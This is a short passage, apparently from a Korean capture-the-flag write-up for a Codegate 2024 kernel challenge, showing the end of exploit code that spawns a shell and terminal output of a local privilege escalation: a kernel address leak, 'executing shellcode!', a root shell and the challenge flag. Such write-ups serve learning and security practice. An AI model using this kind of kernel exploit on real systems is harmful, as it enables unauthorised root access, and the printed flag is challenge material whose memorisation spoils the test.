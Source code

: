 ```c
    system("/bin/sh");

    return 0;
}
```
## 📌 공격 결과
```bash
~ $ id
uid=1000 gid=1000 groups=1000
~ $ cat /flag
cat: can't open '/flag': Permission denied
~ $ /exp
...
...
...
file_base = ffff9c6ec1bc5000, kernel_slide = ffffffffbc200000
read check: Bad file descriptor
found fd = 46
executing shellcode!
~ # id
uid=0 gid=0
~ # cat /flag
codegate2024{d4dc41e3e537cfadafcac5972701aa473a7feb8494964015d3253911106ab0a}
```
